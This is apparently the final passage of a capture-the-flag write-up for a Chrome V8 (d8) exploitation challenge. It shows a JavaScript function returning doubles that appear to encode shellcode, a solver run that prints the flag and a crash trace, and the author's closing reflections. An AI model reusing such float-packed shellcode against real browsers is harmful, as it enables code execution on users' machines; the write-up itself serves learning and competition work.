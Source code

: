 ```js
const f = () => {
    // return [1.9555025752250707e-246,
    //     1.9562205631094693e-246,
    //     1.9711824228871598e-246,
    //     1.9711826272864685e-246,
    //     1.9711829003383248e-246,
    //     1.9710902863710406e-246,
    //     2.6749077589586695e-284];
    return [1.9538188612872625e-246, 1.9712937950614383e-246, 1.9710251537800806e-246, 1.971183133196336e-246, 1.9712348717003474e-246, 1.971025153783073e-246, 1.9710283911189633e-246, -6.82852360670674e-229];
}
```

```
$ python3 solve.py
[+] Opening connection to [REDACTED] on port -1: Done
[*] Switching to interactive mode
Base64 encoded javascript file to be passed to d8: [x] Starting local process './d8'
[+] Starting local process './d8': pid -2
[*] Switching to interactive mode
[*] Got EOF while reading in interactive
TISC{!F0unD_4_M1ll10n_d0LL4R_CHR0m3_3xP017}\x00\xa7\x1a\x00\x00Received signal 11 SEGV_ACCERR 559d600089f0

==== C stack trace ===============================

 [0x559de58c44c6]
 [0x7fbfe93d3520]
 [0x559d600089ba]
[end of stack trace]
$
[*] Interrupted
[*] Closed connection to [REDACTED] port -1
```

```
TISC{!F0unD_4_M1ll10n_d0LL4R_CHR0m3_3xP017}
```

---

# Closing Thoughts

This is my first year attempting TISC. As a primarily `rev`/`pwn` player I found the challenges pretty unique and interesting, especially of course 6b and 7b. It also allowed me to practise my skills in other domains that I would not normally go out of my way to touch. As such, I would like to thank CSIT for all their hard work in organising this event and making it such a smooth and successful one!

This is also my first time attempting (and solving) a browser pwn challenge, and I was surprised by the amount of fun I had in debugging the exploit and eventually acquiring a shell. I hope this serves as a starting point for me to explore further into this subfield :D
